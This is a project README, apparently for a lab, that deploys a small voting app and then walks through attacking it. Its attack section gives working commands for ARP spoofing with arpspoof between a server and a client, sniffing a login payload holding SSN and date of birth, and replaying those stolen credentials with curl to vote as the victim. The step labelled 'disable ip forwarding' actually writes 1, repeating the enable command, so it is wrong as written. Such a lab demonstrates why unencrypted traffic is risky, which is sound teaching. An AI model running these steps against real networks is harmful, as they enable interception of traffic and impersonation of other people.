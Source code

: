 # NetStat

### Install
- [docker](https://docs.docker.com/engine/install/)
- [docker-compose](https://docs.docker.com/compose/install/)

### Deployment

Includes a Backend Service, Frontend Web Server and SQL Database
```sh
git clone https://github.com/tylerferrara/NetStat
cd ./NetStat/backend
# build containers
docker-compose build
# start
docker-compose --env-file .env up
# stop
docker-compose down
# developing
docker-compose -f dev.yaml --env-file .env up
```

### Attack (ARP-Spoofing)

Requires arpspoof found in dsniff package
```sh
sudo apt-get install dsniff
```

We will try to intercept communication between these two machines

Server -> 10.21.4.1

Client -> 10.21.4.4

```sh
# login as super user
su
# find the network device you are using (we use ens3 on our VMs)
ifconfig
# enable ip forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward
# start MITM-Attack
NETDEV=ens3         # change this to your network device
SERVER=10.21.4.1    # host machine 1
CLIENT=10.21.4.4    # host machine 4
arpspoof -i $NETDEV -t $SERVER $CLIENT &> /dev/null &
arpspoof -i $NETDEV -t $CLIENT $SERVER &> /dev/null &
```

Now, if you open up wireshark and inspect network traffic, you can see the HTTP packets from the client. So you can catch the client logging into the server and see the payload:
```sh
{
    "SSN":"111110",
    "DOB":"12-10-1991",
    "Eligible":true
}
```
Let's disable the client's connection to the server so they can't cast a vote before us:
```sh
# disable ip forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Now we can cast our vote with the client's credentials:
```sh
curl -X GET \
  -H "Content-type: application/json" \
  -H "Accept: application/json" \
  -d '{"SSN":"111110","DOB":"12-10-1991","Candidate":"Zach"}' \
  "10.21.4.1:8080/vote"
```

To stop the spoofing, we can kill both processes:
```sh
# stop the spoofing 
kill $(pidof arpspoof)
```
